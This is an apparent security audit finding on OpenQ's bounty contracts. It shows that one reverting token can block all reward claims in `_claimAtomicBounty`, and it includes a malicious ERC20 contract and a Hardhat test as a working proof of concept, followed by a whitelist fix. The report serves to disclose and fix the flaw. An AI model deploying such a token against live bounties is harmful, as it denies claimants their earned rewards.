 TrungOre

high

# Attacker can fund malicious tokens to make competitor unable to claim their reward.

## Summary
In AtomicBounty, when paying the reward for closer, the bounty needs to loop through the entire `tokenAddress[]` array. So if there is a failed transfer in a iteration, the entire process will revert. 
```solidity=
// contract: ClaimManagerV1.sol 

function _claimAtomicBounty(
    IAtomicBounty _bounty,
    address _closer,
    bytes calldata _closerData
) internal {
    _eligibleToClaimAtomicBounty(_bounty, _closer);

    /// [#explain] claim ERC20  
    for (uint256 i = 0; i < _bounty.getTokenAddresses().length; i++) {
        uint256 volume = _bounty.claimBalance(
            _closer,
            _bounty.getTokenAddresses()[i] /// [$audit-med] out-of-gas here  
        );

        /// ...
    }

    /// [#explain] claim ERC721
    /// ... 
}
```
Since the bounty allows funders to deposit into the bounty unwhitelisted tokens if the token addresses is not reached, attacker can abuse this techinique by creating a malicious ERC20 token. This malicious token will revert when transferring from bounty to user, which will make a iteration in the loop of function `ClaimManagerV1._claimAtomicBounty` failed then make the whole function call revert. 

## Vulnerability Detail
Attacker can deploy a malicious ERC20 which reverts every `transfer()` call (not `transferFrom()`) like below: 
```solidity=
pragma solidity 0.8.17;

import '@openzeppelin/contracts/token/ERC20/ERC20.sol';

contract MockMaliciousERC20 is ERC20 {
    address public admin;

    constructor() ERC20('Mock MAL', 'mMAL') {
        _mint(msg.sender, 10000 * 10**18);
        admin = msg.sender;
    }
    
    /// [#explain] revert every transfer tx 
    function transfer(address to, uint256 amount) public virtual override returns (bool) {
        require(0 == 1, "Iam a malicious ERC20");
    }
}
```
Here is the test scripts: 
```typescript=
it.only('should revert when there is malicious token in bounty rewards', async() => {
    // attacker deploy malicious tokens 
    const MockMal = await ethers.getContractFactory('MockMaliciousERC20');
    const mockMal = await MockMal.deploy();
    const attacker = notOwner;

    // ARRANGE
    const volume = 100;
    await openQProxy.mintBounty(Constants.bountyId, Constants.organization, atomicBountyInitOperation);

    const bountyAddress = await openQProxy.bountyIdToAddress(Constants.bountyId);

    await mockLink.approve(bountyAddress, 10000000);
    await mockDai.approve(bountyAddress, 10000000);
    await mockMal.approve(bountyAddress, 10000000);

    /// fund bounty with LINK, DAI and Malicious token
    await depositManager.fundBountyToken(bountyAddress, mockLink.address, volume, 1, Constants.funderUuid);
    await depositManager.fundBountyToken(bountyAddress, mockDai.address, volume, 1, Constants.funderUuid);
    await depositManager.fundBountyToken(bountyAddress, mockMal.address, volume, 1, Constants.funderUuid);

    await expect(
        claimManager.connect(oracle).claimBounty(bountyAddress, claimant.address, abiEncodedSingleCloserData)
    ).to.be.revertedWith("Iam a malicious ERC20");
});
```
You can place it in `ClaimManager.test.js` -> `describe('ClaimManager.sol')` -> `describe('claimBounty')` -> `describe('ATOMIC')` -> `describe('TRANSFER')`

## Impact
Competitors who join the bounty can't claim their rewards. 

## Code Snippet
https://github.com/sherlock-audit/2023-02-openq/blob/main/contracts/DepositManager/Implementations/DepositManagerV1.sol#L45-L50
https://github.com/sherlock-audit/2023-02-openq/blob/main/contracts/ClaimManager/Implementations/ClaimManagerV1.sol#L130-L148
https://github.com/sherlock-audit/2023-02-openq/blob/main/contracts/ClaimManager/Implementations/ClaimManagerV1.sol#L230-L249

## Tool used
Hardhat 

## Recommendation
Consider to just deal with whitelisted token. 
Or you can define a new storage array `additionalTokens[]` which will be modified by the bounty's issuer and let these token permission to be deposited into bounty. 